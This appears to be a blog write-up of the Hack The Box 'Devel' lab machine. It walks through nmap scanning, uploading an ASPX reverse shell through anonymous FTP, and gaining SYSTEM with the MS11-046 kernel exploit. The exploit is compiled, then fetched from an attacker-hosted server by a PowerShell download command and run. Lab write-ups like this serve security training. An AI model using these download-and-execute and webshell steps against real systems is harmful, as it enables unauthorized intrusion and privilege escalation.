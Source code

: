 ```yaml
---
layout: single
title: Hack The Box - Devel 
permalink: /htb-devel/
excerpt: "Devel is an easy machine on the hackthebox platform. I can upload a webshell in FTP with anonymous login and get administrator/system using the Windows Kernel Exploits."
classes: wide
header:
  teaser: "/assets/images/htb/devel/home_img.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - cve
tags:
  - aspx-reverse-shell
  - CVE-2011-1249
---
```



![1](/assets/images/htb/devel/home_img.png)


# <u>1:Enumeration</u>

- scan top 1000 ports

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/1000.png)

- all ports scan

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/all_ports.png)

### <u>Open Ports</u>
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

## <u>FTP</u>
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![1](/assets/images/htb/devel/ftp.png)

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

## <u>WebPage</u>
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![1](/assets/images/htb/devel/welcome.png)

- COOL!

# <u>2:Foothold/Gaining Access</u>

## <u>ASPX Reverse Shell</u>
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![1](/assets/images/htb/devel/got_shell.png)

- I'm in as `iis apppool\web`

## <u>systeminfo</u>

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![1](/assets/images/htb/devel/systeminfo.png)

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

# <u>3:Privilege Escalation</u>

## <u>MS11-046</u>

![1](/assets/images/htb/devel/exploit-db.png)

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### <u>Compiling Exploit</u>
> <font color="yellow">Note: </font> If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
> Just run this command to install  it`apt install mingw-w64` 

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### <u>Transfer the Exploit</u>
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![1](/assets/images/htb/devel/exe.png)

- YES! I'm become `SYSTEM`

## <u>User Flag</u>

![1](/assets/images/htb/devel/user.png)

## <u>Administrator Flag</u>

![1](/assets/images/htb/devel/admin.png)

# <u>4:Conclusion</u>
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)